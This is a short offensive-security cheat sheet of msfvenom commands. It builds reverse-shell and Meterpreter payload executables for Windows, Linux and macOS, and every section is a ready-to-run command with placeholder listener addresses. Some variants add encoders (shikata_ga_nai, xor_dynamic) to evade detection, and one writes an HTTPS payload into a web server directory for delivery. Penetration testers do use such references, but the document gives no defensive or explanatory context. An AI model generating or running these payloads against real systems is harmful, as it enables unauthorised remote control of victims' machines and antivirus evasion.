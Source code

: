 # msfvenom

% msfvenom, reverse shell

#platform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## msfvenom payloads list
```
msfvenom --list payloads
```

## msfvenom - payload windows x86 meterpeter unstagged
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f exe > shell.exe
```

## Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell.elf
```

## Linux x64 Meterpreter Reverse tcp
```
msfvenom -p  linux/x64/meterpreter/reverse_tcp LHOST=<ip|tun0> LPORT=<port> prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf
```

## Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe
```

## Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<local> -f exe > shell.exe
```

## Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<local> -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

## Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho > shell.macho
```

## meterpreter x64 - https - non staged
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<ip> LPORT=<port|443> -f exe -o /var/www/html/msfnonstaged.exe
```
